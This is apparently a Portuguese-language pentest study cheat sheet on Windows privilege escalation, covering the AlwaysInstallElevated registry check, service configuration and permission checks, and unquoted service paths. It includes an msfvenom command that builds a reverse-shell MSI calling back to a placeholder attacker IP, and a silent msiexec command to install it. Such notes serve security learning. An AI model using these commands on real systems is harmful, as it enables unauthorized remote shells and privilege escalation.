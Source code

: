 
## AlwaysInstallElevated
Arquivos MSI podem ser explorados se ambos os registros forem definidos:
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

### Explorar:
Gerar MSI malicioso:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

Executar:
```cmd
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

---

# 🛠 Serviços do Windows

## Entendendo a estrutura
Verificar configuração de serviço:
```cmd
sc qc <serviço>
```

Configurações de serviços estão armazenadas em:
```plaintext
HKLM\SYSTEM\CurrentControlSet\Services\
```

Verificar permissões:
```cmd
icacls <C:\PROGRA~2\SYSTEM~1\WService.exe>
```

---

## Caminhos de serviço não citados
Primeiro, verificar:
```plaintext
C:\MyPrograms\Disk.exe
```

Se não existir, verificar:
```plaintext
C:\MyPrograms\Disk Sorter.exe
```

Se ainda não existir, verificar:
```plaintext
C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
```
